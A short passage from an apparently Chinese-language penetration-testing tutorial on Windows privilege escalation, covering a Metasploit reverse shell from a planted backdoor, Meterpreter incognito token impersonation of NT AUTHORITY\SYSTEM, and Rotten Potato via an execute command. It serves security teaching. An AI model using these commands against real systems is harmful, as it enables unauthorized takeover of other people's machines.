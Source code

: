 4. 将生成的后门传至目标主机中并运行，msf成功接收到shell反弹请求，获取到目标主机的反弹shell

![shell反弹](img/windowsTq4.png)

5. 输入getuid命令查看，可以看到获取到了本地用户权限，下面使用incognito模块进行本地提权

``` shell
use incognito
list_tokens -u  //查看存在哪些用户
impersonate_token "NT AUTHORITY\SYSTEM" //发现存在NT AUTHORITY\SYSTEM的系统用户，窃取该系统用户令牌进行提权
```

成功提权至系统用户

![提权](img/windowsTq5.png)

6. 烂土豆提权。

- 烂土豆令牌窃取。若获取到的webshell用户权限很低，则可以借助烂土豆进行提权，但必须先执行烂土豆后门程序再加载incognito模块才能获取到系统用户权限，后续操作跟上面的一样。

- 烂土豆攻击。直接使用烂土豆漏洞进行攻击，直接获取权限

  ``` shell
  execute -cH -f ./potato.exe //配合烂土豆
  ```

